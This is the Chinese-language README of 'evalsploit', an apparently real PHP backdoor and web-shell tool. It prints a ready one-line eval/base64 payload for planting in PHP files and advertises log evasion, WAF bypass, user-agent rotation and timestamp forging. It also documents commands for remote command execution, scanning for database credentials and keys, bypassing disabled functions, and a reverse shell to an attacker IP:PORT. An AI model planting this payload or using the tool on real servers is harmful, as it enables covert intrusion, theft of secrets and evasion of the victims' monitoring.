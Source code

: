 # evalsploit 中文版
# [evalsploit по-русски](README_RU.md)
# [evalsploit english](README.md)

# evalsploit
基于eval function的后门，可作为独立的web-shell（网页后门）

### 功能

-   **隐身**
    -   适用于POST请求 ，几乎不可见日志
    -   内置WAF 旁路功能
    -   每个新会话都有新的用户代理
    -   隐身操作设置


-   **通用**
    -   有效载荷可添加到PHP代码的任何部分
    -   适用于 Linux, Windows, Mac OS

# 使用手册

#### 入门

1) 使用有效载荷感染PHP或作为一个独立的外壳
`if(isset($_POST['Z'])){@eval(base64_decode(str_replace($_POST['V'], '' ,$_POST['Z'])));die();}`
2) 当启动程序时，evalsploit将需要链接到含有效负荷的文件
3) 当更改 `send` 模块（见于“程序设置”）时，使用 `gen` 指令生成新的有效负载

#### 使用文件系统

-   `ls`: 该目录中文件的列表
	-   设置 `ls`: 基于 DirectoryIterator（默认支持）
	-   设置 `dir`: 基于 ScanDir

-   `cp`: 复制文件
    -   使用分隔号 ` : ` (/what.txt : /where/what.txt )

-   `cd`: 通过文件系统进行移动

-	`mkd`: 创建新目录

-	`upl`: 上传文件到服务器

-	`home`: 回到 \_\_DIR\_\_

-	`pwd`: 打印活动目录

#### 使用文件

-   `cat`: 使用文件
    -   设置 `html`: 基于 htmlentities 
	-   设置 `base64`: 基于 base64_encode\base64_decode (设置默认)

-   `rm`: 删除文件

-   `dl`: 下载文件（下载到/下载文件夹）
	-	不能处理大于100MB的文件
	
-   `edit`: 编辑文件内容
	-	不能处理大于100MB的文件

-	`mkf`: 创建新文件

-	`touch`: 更改文件时间戳
	-	使用 ` settime ` 分隔 (file.рhр settime Year-Month-Day Hour:Minute:Second)

-	`stat`: 文件信息

-	`ren`: 重命名文件
	-	使用分隔 ` : ` (/where/old.txt : new.php )


#### 使用evalsploit系统

-   `run`: 切换到命令行模式
	-	`exit` 退出模式
	-	支持 exec, shell_exec, system, passthru, popen, proc_open, expect_popen, pcntl_exec, do
	
-	`info`: 服务器信息
	-	php 版本, OS
	
-	`scan`: 扫描所选目录
	-	搜索系统 PHP, 数据库、密钥等
	
-	`exploit`: 使用内置漏洞绕过已禁用的命令行，激活命令行模式
	-	`exit` 退出模式

-	`reverse`: reverse-shell - `reverse IP:PORT`
	
-	`gen`: 根据发送模块生成有效负载
	
-	`help`: 首页
	
-	`exit`: 退出
	
	
	
#### 程序设置

-	`set`: 配置模块。要查看参数列表请使用 `set module help`
	-	代替 `help` 可接受 `-h`, `h`, `?`, `/?`)
	-	**run**: `exec`, `shell_exec`, `system`, `passthru`, `popen`, `proc_open`, `expect_popen`, `pcntl_exec`, `do`
	-	**ls**: `ls`, `dir`
	-	**cat**: `html`, `base64`
	-	**silent**: `1`, `0` (隐身)
	-	**reverse**: `ivan`, `monkey` 
	-	**send**: `bypass`, `classic`, `simple` (发送模块)
	
